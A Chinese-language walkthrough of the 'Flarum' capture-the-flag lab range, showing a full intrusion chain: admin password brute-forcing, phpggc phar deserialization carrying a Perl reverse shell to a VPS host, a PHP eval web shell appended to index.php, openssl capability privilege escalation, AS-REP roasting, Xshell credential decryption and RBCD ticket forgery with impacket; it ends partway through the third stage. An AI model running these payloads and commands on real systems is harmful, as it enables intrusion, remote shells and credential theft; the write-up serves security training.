








# Flarum
<div style="text-align: right;">

date: "2023-12-16"

</div>


靶标介绍：
Flarum是一套难度为中等的靶场环境，完成该挑战可以帮助玩家了解内网渗透中的代理转发、内网扫描、信息收集、kerberos协议以及横向移动技术方法，加强对域环境核心认证机制的理解，以及掌握域环境渗透中一些有趣的技术要点。该靶场共有4个flag，分布于不同的靶机。

| 内网地址     | Host or FQDN            | 简要描述                 |
| ------------ | ----------------------- | ------------------------ |
| 172.22.60.52 | web01                   | 外网 Flarum CMS          |
| 172.22.60.15 | PC1.xiaorang.lab        | 存在 Xshell 客户端的主机 |
| 172.22.60.42 | Fileserver.xiaorang.lab | 有 DCSync 权限的主机     |
| 172.22.60.8  | DC.xiaorang.lab         | 域控制器                 |


## 第一关

> 请测试 Flarum 社区后台登录口令的安全性，并获取在该服务器上执行任意命令的能力。

### 爆破后台

访问网站，使用Rockyou进行爆破得到后台密码：`administrator/1chris`



### 反序列化

进入后台后参考文章：[从偶遇Flarum开始的RCE之旅-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2103549)

使用phpggc来进行生成tar类型的恶意反序列化内容。

```php
php -d phar.readonly=0 phpggc -p tar -b Monolog/RCE6 system "perl -e 'use Socket;\$i=\"VPS_IP\";\$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in(\$p,inet_aton(\$i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'"
```

在后台“编辑自定义 CSS”区域，写入：

```php
@import (inline) 'data:text/css;base64,dGVzdC50eHQAAAAAAAAAAAAAAAAAAAAAAAAAA...;'
```


写入后访问 `http:/xxx.xxx.xxx.xxx/assets/forum.css` ，发现内容已成功写入 `forum.css` 的头部



再次修改自定义CSS，使用phar协议包含这个文件（可以使用相对路径），一直转圈圈就代表在反弹了

```php
.test {
  content: data-uri('phar://./assets/forum.css');
}
```

成功收到反弹的shell

```shell
[root@VM-8-10-centos ~]# nc -lvvp 2333
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::2333
Ncat: Listening on 0.0.0.0:2333
Ncat: Connection from 39.99.230.18.
Ncat: Connection from 39.99.230.18:44038.
/bin/sh: 0: can't access tty; job control turned off
$ ls -al /var/www/html/
total 428
drwxr-xr-x  5 root root   4096 Aug  3 15:47 .
drwxr-xr-x  3 root root   4096 Aug  3 15:47 ..
-rwxr-xr-x  1 root root    361 Nov 15  2022 .editorconfig
-rwxr-xr-x  1 root root   1784 Nov 15  2022 .nginx.conf
-rwxr-xr-x  1 root root   2319 Nov 15  2022 CHANGELOG.md
-rwxr-xr-x  1 root root   1168 Nov 15  2022 LICENSE
-rwxr-xr-x  1 root root   2335 Nov 15  2022 README.md
-rwxr-xr-x  1 root root   1340 Jul 31 15:37 composer.json
-rwxr-xr-x  1 root root 373464 Jul 31 15:37 composer.lock
-rw-r--r--  1 root root    630 Aug  3 14:03 config.php
-rwxr-xr-x  1 root root    265 Nov 15  2022 extend.php
-rwxr-xr-x  1 root root    634 Nov 15  2022 flarum
drwxr-xr-x  3 root root   4096 Dec 16 14:47 public
-rwxr-xr-x  1 root root   1800 Nov 15  2022 site.php
drwxr-xr-x 10 root root   4096 Nov 15  2022 storage
drwxr-xr-x 41 root root   4096 Jul 31 15:37 vendor

```

在 `/var/www/html/public` 下的 `index.php` 中追加一句话木马，方便操作。

```shell
echo '@eval($_POST["123"]);' >> index.php
```
### flag01

尝试 `suid` 和 `sudo` 提权无果后，尝试使用 `Capability` 进行提权

```shell
$ getcap -r / 2>/dev/null
/snap/core20/1974/usr/bin/ping cap_net_raw=ep
/snap/core20/1405/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/openssl =ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/ping cap_net_raw=ep

```

发现存在 `openssl` ，尝试提权，其中一直空格即可。

```shell
$ cd /tmp
$ openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
..+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*..+.+..............+......+...+....+..+.+........+.+......+.....+..........+.....+............+.+..+....+........+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*..+.....+.+.........+...........+...+.+......+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
...+.+..+...+........................+...+.......+........+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*..+.........+...+.+.....+.+.........+......+....................+...+...+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*.+........+..........+...+...+..+....+...+......+.....+......+.+...+.....+......+.........+..........+............+.....+.......+......+..+...+.........+.+............+........+.+.....+....+.................+..........+.....+.......+..+..........+...........+.......+............+......+........+......+...+...+...+......+.............+..+....+.....+....+......+.........+..+...+.+.....+.......+.........+...+..+.+..+......+.+.........+..+...+.+.....+.+.........+...+...............+......+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
$ ls
cert.pem
key.pem
$ cd /
$ openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 1337 -HTTP

```

使用 `HTTP/0.9` 的协议读取flag

```shell
┌──(kali㉿kali)-[~/Desktop/phpggc-master]
└─$ curl -k --http0.9 "https://39.99.230.18:1337/root/flag/flag01.txt"
                                 _         _       _   _                 
  ___ ___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___ 
 / __/ _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| (_| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \___\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                 |___/                                                   

flag01: flag{6f84b293-a7ed-4147-86d2-a18d4d98389e}

```

### 内网探测

使用Fscan探测内网

```shell
172.22.60.8:88 open
172.22.60.42:135 open
172.22.60.15:445 open
172.22.60.42:445 open
172.22.60.8:445 open
172.22.60.15:139 open
172.22.60.42:139 open
172.22.60.8:139 open
172.22.60.15:135 open
172.22.60.8:135 open
172.22.60.52:80 open
172.22.60.52:22 open
[*] NetInfo:
[*]172.22.60.8
[->]DC
[->]172.22.60.8
[->]169.254.147.166
[*] NetInfo:
[*]172.22.60.15
[->]PC1
[->]172.22.60.15
[->]169.254.208.212
[*] NetBios: 172.22.60.15    XIAORANG\PC1                   
[*] NetBios: 172.22.60.8     [+]DC XIAORANG\DC              
[*] NetBios: 172.22.60.42    XIAORANG\FILESERVER            
[*] NetInfo:
[*]172.22.60.42
[->]Fileserver
[->]172.22.60.42
[->]169.254.183.41
[*] WebTitle: http://172.22.60.52       code:200 len:5867   title:霄壤社区
```

简单的扫描发现没有漏洞，结合之前在后端发现的用户列表



### 读取数据库配置文件

```php
$ cat /var/www/html/config.php
<?php return array (
  'debug' => false,
  'database' => 
  array (
    'driver' => 'mysql',
    'host' => 'localhost',
    'port' => 3306,
    'database' => 'flarum',
    'username' => 'root',
    'password' => 'Mysql@root123',
    'charset' => 'utf8mb4',
    'collation' => 'utf8mb4_unicode_ci',
    'prefix' => 'flarum_',
    'strict' => false,
    'engine' => 'InnoDB',
    'prefix_indexes' => true,
  ),
  'url' => 'http://'.$_SERVER['HTTP_HOST'],
  'paths' => 
  array (
    'api' => 'api',
    'admin' => 'admin',
  ),
  'headers' => 
  array (
    'poweredByHeader' => true,
    'referrerPolicy' => 'same-origin',
  ),
);

```

通过数据库下载用户列表



## 第二关

> 通过kerberos攻击的获取域内权限，并进行信息收集。

### 域用户枚举

```shell
$ ./kerbrute_linux_386 userenum --dc 172.22.60.8 -d xiaorang.lab userlist.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 12/16/23 - Ronnie Flathers @ropnop

2023/12/16 15:21:00 >  Using KDC(s):
2023/12/16 15:21:00 >   172.22.60.8:88

2023/12/16 15:21:00 >  [+] VALID USERNAME:       administrator@xiaorang.lab
2023/12/16 15:21:00 >  [+] VALID USERNAME:       yangyan@xiaorang.lab
2023/12/16 15:21:00 >  [+] VALID USERNAME:       zhanghao@xiaorang.lab
2023/12/16 15:21:00 >  [+] VALID USERNAME:       zhangwei@xiaorang.lab
2023/12/16 15:21:00 >  [+] VALID USERNAME:       wangping@xiaorang.lab
2023/12/16 15:21:00 >  [+] VALID USERNAME:       wangkai@xiaorang.lab
2023/12/16 15:21:00 >  [+] VALID USERNAME:       chenfang@xiaorang.lab
2023/12/16 15:21:00 >  [+] VALID USERNAME:       wangyun@xiaorang.lab
2023/12/16 15:21:00 >  [+] VALID USERNAME:       zhangxin@xiaorang.lab
2023/12/16 15:21:05 >  Done! Tested 246 usernames (9 valid) in 5.002 seconds

```

### AS-REP Roasting攻击

使用 AS-REP Roasting 获取配置了 **不需要 Kerberos 预身份验证** 的用户响应，再使用 hashcat 进行离线爆破：

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 -q impacket-GetNPUsers xiaorang.lab/ -dc-ip 172.22.60.8 -usersfile user.txt -format hashcat -outputfile hashes.txt
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User administrator@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User yangyan@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User chenfang@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zhanghao@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zhangwei@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User wangping@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User wangkai@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop]
└─$ cat hashes.txt                                                    
$krb5asrep$23$wangyun@xiaorang.lab@XIAORANG.LAB:141898f8957fd75a0c11142255cd248a$ebc2fe505117e88709794676fea9bc11e6fc91f843fbcee64a4cfd22f003394241997adaef42f4d7224bf9b6ea140f494c6018da879a3efb5fdce41f6a0da85ed83812b814089b948f0e1a63193928a22bac18670bfe50297670874db195026b320f9a0877a457e620c06175bfa3ccef31d84c68958e054067b615dd5a2eb9a40ebc81384109c309c8b7bc7e97d684196a8bf77c09a8e1fa10b9552a5dd4d71d886ea950b7f6c49575df2dd752c58750952df4b026beaef3e1afce95a84f6a432ab830df46231b8bc97402e7a995daf21be136341a17ec66580b851583ff1c3a37cacbb98b49a6e3ae8f12f9
$krb5asrep$23$zhangxin@xiaorang.lab@XIAORANG.LAB:72a17870aabd3b6e3c02a49fdb0ca970$fcc19d2f75ce7e10c5596109996cab7846823573f96df9b801c03e5518f3f9628f4c4a34b68fe459f66399171f99fa1beda3a845316385ad9bebb8a703289caab62d1db153ee81c2e9e0db36e149b1b77e754a8235e127675f535295f74d9a8fa9938507d4a51576005bd5ce9124b36df57d85d7782a96a40e3d34fba5a5d322ae8ee7ac4fec57c46ad47d3f3ce5c54727291bce7f1faa6197fc80ec19e3955263ea743f53dc04446ba98e3b35bb7ab54bc26c8f2525efeb62d7592109b4f47ea3f65577e7d05fedac8ac408415871cb9b8efa85fdd4c557ca801a6921b818bfc469ec021f5f824c0eee8913

┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt --show
$krb5asrep$23$wangyun@xiaorang.lab@XIAORANG.LAB:141898f8957fd75a0c11142255cd248a$ebc2fe505117e88709794676fea9bc11e6fc91f843fbcee64a4cfd22f003394241997adaef42f4d7224bf9b6ea140f494c6018da879a3efb5fdce41f6a0da85ed83812b814089b948f0e1a63193928a22bac18670bfe50297670874db195026b320f9a0877a457e620c06175bfa3ccef31d84c68958e054067b615dd5a2eb9a40ebc81384109c309c8b7bc7e97d684196a8bf77c09a8e1fa10b9552a5dd4d71d886ea950b7f6c49575df2dd752c58750952df4b026beaef3e1afce95a84f6a432ab830df46231b8bc97402e7a995daf21be136341a17ec66580b851583ff1c3a37cacbb98b49a6e3ae8f12f9:Adm12geC

```

### 使用域用户凭据扫描内网主机

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 -q ./nxc smb 172.22.60.52/24 -u wangyun -p Adm12geC
SMB         172.22.60.8     445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:xiaorang.lab) (signing:True) (SMBv1:False)
SMB         172.22.60.15    445    PC1              [*] Windows 10.0 Build 17763 x64 (name:PC1) (domain:xiaorang.lab) (signing:False) (SMBv1:False)
SMB         172.22.60.42    445    Fileserver       [*] Windows 10.0 Build 17763 x64 (name:Fileserver) (domain:xiaorang.lab) (signing:False) (SMBv1:False)
SMB         172.22.60.8     445    DC               [+] xiaorang.lab\wangyun:Adm12geC 
SMB         172.22.60.15    445    PC1              [+] xiaorang.lab\wangyun:Adm12geC 
SMB         172.22.60.42    445    Fileserver       [-] xiaorang.lab\wangyun:Adm12geC STATUS_TRUSTED_RELATIONSHIP_FAILURE
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00

```
### 解密Xshell

发现存在Xshell工具，获取密码



```shell
PS C:\Users\wangyun\Desktop> .\SharpXDecrypt.exe

Xshell全版本凭证一键导出工具!(支持Xshell 7.0+版本)
Author: 0pen1
Github: https://github.com/JDArmy
[!] WARNING: For learning purposes only,please delete it within 24 hours after downloading!

[*] Start GetUserPath....
  UserPath: C:\Users\wangyun\Documents\NetSarang Computer\7
[*] Get UserPath Success !

[*] Start GetUserSID....
  Username: wangyun
  userSID: S-1-5-21-3535393121-624993632-895678587-1107
[*] GetUserSID Success !

  XSHPath: C:\Users\wangyun\Documents\NetSarang Computer\7\Xshell\Sessions\SSH.xsh
  Host: 172.22.60.45
  UserName: zhangxin
  Password: admin4qwY38cc
  Version: 7.1

[*] read done!
```

### 分析域环境

使用 `bloodhound` 分析域内环境

```shell
┌──(kali㉿kali)-[~/Desktop/BloodHound.py-master]
└─$ proxychains4 -q bloodhound-python -u wangyun -p Adm12geC -d xiaorang.lab -dc DC.xiaorang.lab -ns 172.22.60.8 -c all --auth-method ntlm --dns-tcp --zip
INFO: Found AD domain: xiaorang.lab
INFO: Connecting to LDAP server: DC.xiaorang.lab
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 3 computers
INFO: Connecting to LDAP server: DC.xiaorang.lab
INFO: Found 12 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: fileserver.xiaorang.lab
INFO: Querying computer: PC1.xiaorang.lab
INFO: Querying computer: DC.xiaorang.lab
WARNING: DCE/RPC connection failed: SMB SessionError: STATUS_TRUSTED_RELATIONSHIP_FAILURE(The logon request failed because the trust relationship between this workstation and the primary domain failed.)
WARNING: DCE/RPC connection failed: SMB SessionError: STATUS_TRUSTED_RELATIONSHIP_FAILURE(The logon request failed because the trust relationship between this workstation and the primary domain failed.)
WARNING: DCE/RPC connection failed: SMB SessionError: STATUS_TRUSTED_RELATIONSHIP_FAILURE(The logon request failed because the trust relationship between this workstation and the primary domain failed.)
WARNING: DCE/RPC connection failed: SMB SessionError: STATUS_TRUSTED_RELATIONSHIP_FAILURE(The logon request failed because the trust relationship between this workstation and the primary domain failed.)
WARNING: DCE/RPC connection failed: SMB SessionError: STATUS_TRUSTED_RELATIONSHIP_FAILURE(The logon request failed because the trust relationship between this workstation and the primary domain failed.)
INFO: Done in 00M 10S
INFO: Compressing output into 20231216031357_bloodhound.zip

```

目前已知信息分析：

| 账号                  | 密码          |
| --------------------- | ------------- |
| xiaorang.lab/wangyun  | Adm12geC      |
| xiaorang.lab/zhangxin | admin4qwY38cc |



`zhangxin@xiaorang.lab` 用户属于`ACCOUNT OPERATORS`组（[账户操作员组](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#account-operators)）

账户操作员组授予用户有限的账户创建权限。该组的成员可以创建和修改大多数类型的账户，包括用户、本地组和全局组的账户。组员可以在本地登录域控制器。



通过上图可以知道 `Account Operators` 组对除域控机器外都有**通用所有**权限，所以可以使用 RBCD 对 PC1$ 机器拿取flag

### RBCD

#### 添加机器用户

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 -q impacket-addcomputer 'xiaorang.lab/zhangxin:admin4qwY38cc' -computer-name 'T1sts$' -computer-pass 'Admin@123' -dc-ip 172.22.60.8

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Successfully added machine account T1sts$ with password Admin@123.

```

#### 配置RBCD

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 -q impacket-rbcd 'xiaorang.lab/zhangxin:admin4qwY38cc' -action write -delegate-from 'T1sts$' -delegate-to 'PC1$' -dc-ip 172.22.60.8

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] T1sts$ can now impersonate users on PC1$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     T1sts$       (S-1-5-21-3535393121-624993632-895678587-1116)

```

#### 伪造域管权限的服务票据

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 -q impacket-getST xiaorang.lab/T1sts$:'Admin@123' -spn cifs/PC1.xiaorang.lab -impersonate administrator -dc-ip 172.22.60.8
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache

```

#### 获取主机SYSTEM权限

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ export KRB5CCNAME=administrator.ccache


┌──(kali㉿kali)-[~/Desktop]
└─$  proxychains4 -q impacket-smbexec 'xiaorang.lab/administrator@PC1.xiaorang.lab' -target-ip 172.22.60.15 -codec gbk -shell-type powershell -no-pass -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
PS C:\Windows\system32> type C:\Users\Administrator\flag\flag02.txt
d88888b db       .d8b.  d8888b. db    db .88b  d88. 
88'     88      d8' `8b 88  `8D 88    88 88'YbdP`88 
88ooo   88      88ooo88 88oobY' 88    88 88  88  88 
88~~~   88      88~~~88 88`8b   88    88 88  88  88 
88      88booo. 88   88 88 `88. 88b  d88 88  88  88 
YP      Y88888P YP   YP 88   YD ~Y8888P' YP  YP  YP 

flag02: flag{aae31a69-313e-4eaa-bd0e-27bde143a229}


```

其实这台主机不需要获取SYSTEM权限，因为根据下图分析路径，拿下 FILESERVER 主机可以直接获取域内所有主机的Hash


## 第三关

>请尝试获取内网中Fileserver主机的权限，并发现黑客留下的域控制器后门。



### RBCD

#### 配置RBCD

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 -q impacket-rbcd 'xiaorang.lab/zhangxin:admin4qwY38cc' -action write -delegate-from 'T1sts$' -delegate-to 'FILESERVER$' -dc-ip 172.22.60.8

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] T1sts$ can now impersonate users on FILESERVER$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     T1sts$       (S-1-5-21-3535393121-624993632-895678587-1116)

```

#### 伪造域管权限的服务票据

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 -q impacket-getST xiaorang.lab/T1sts$:'Admin@123' -spn cifs/FILESERVER.xiaorang.lab -impersonate administrator -dc-ip 172.22.60.8
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache

```

#### 清除之前配置的票据

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ echo $KRB5CCNAME

administrator.ccache
                                                                                                                   
┌──(kali㉿kali)-[~/Desktop]
└─$ unset KRB5CCNAME

┌──(kali㉿kali)-[~/Desktop]
└─$ echo $KRB5CCNAME     


```

#### 获取SYSTEM权限

这里尝试很久都会爆一个` [-] SMB SessionError: STATUS OBJECT NAME NOT FOUND(The object name is not found.)`，重置靶场、重置本地环境、云上尝试都没有效果，直到使用`python3 smbexec.py`，真玄学啊

```shell
┌──(kali㉿kali)-[~/Desktop/impacket-0.10.0/examples]
└─$ export KRB5CCNAME=administrator.ccache
                                                                                                                       
┌──(kali㉿kali)-[~/Desktop/impacket-0.10.0/examples]
└─$ proxychains4 -q python3 smbexec.py 'xiaorang.lab/administrator@FILESERVER.xiaorang.lab' -target-ip 172.22.60.42 -codec gbk -shell-type powershell -no-pass -k

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
PS C:\Windows\system32> type C:\Users\Administrator\flag\flag03.txt

 ________  __                                        
|_   __  |[  |                                       
  | |_ \_| | |  ,--.   _ .--.  __   _   _ .--..--.   
  |  _|    | | `'_\ : [ `/'`\][  | | | [ `.-. .-. |  
